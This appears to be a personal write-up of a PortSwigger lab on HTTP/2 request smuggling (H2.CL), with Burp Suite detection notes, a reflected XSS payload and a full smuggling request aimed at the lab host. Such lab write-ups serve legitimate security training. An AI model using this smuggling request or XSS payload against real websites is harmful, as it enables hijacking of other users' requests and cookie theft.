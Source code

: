# [Lab: H2.CL request smuggling](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling)

## Lab

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

## Detected H2.CL

- burpsuite active scan: detected hidden http 2
- burpsuite `HTTP request smuggler` extension: detected `Issue: CL.0 desync: h2CL|GET /favicon.ico`

## Detected refected xss

`/post/comment/confirmation?postId="><img%20src=1%20onerror=alert(document.cookie)>`

## Solutions

setting repeater to work with http 2:

![settings.png](./../img/lab-12-settings.png)

H2.CL smuggling:

```http
POST / HTTP/2^M$
Host: 0a1500370309a192c65b9aea00cc004d.web-security-academy.net^M$
Accept-Encoding: gzip, deflate, z3xzplkp72^M$
Accept: */*, text/z3xzplkp72^M$
Accept-Language: en-US;q=0.9,en;q=0.8^M$
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36 z3xzplkp72^M$
X-Connection: close^M$
Cache-Control: max-age=0^M$
Origin: https://z3xzplkp72.com^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 0^M$
^M$
GET /post/comment/confirmation?postId="><img%20src=1%20onerror=alert(document.cookie)> HTTP/1.1^M$
X-YzBqv: 
```
